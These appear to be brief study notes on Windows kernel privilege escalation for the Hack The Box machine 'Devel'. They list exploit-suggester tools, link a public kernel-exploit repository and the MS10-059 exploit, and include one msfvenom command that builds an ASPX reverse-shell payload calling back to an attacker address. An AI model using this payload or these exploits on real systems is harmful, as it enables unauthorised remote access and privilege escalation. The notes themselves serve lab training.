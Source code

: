 What is a Kernel?

The kernel is: 
1. A computer Program that controls everything in the system 
2. Facilitates interactions between hardware and software components
3. A translator

![[Pasted image 20240929020840.png]]

![[Pasted image 20240929020950.png]]

Windows Kernel Exploits - [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

Metasploit Method:

TL;DR You'll be running post/multi/recon/local_exploit_suggester

Manual Method:

We generated a payload with msfvenom and we utilized it by a meterpreter shell.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f aspx > manual.aspx
```

Use Windows Exploit suggester to look through the potential vulnerabilities and look through the different vulns and see what works.

This exploit is particularly common:

MS10-059 Exploit - [https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)

HTB Box to practice this on: Devel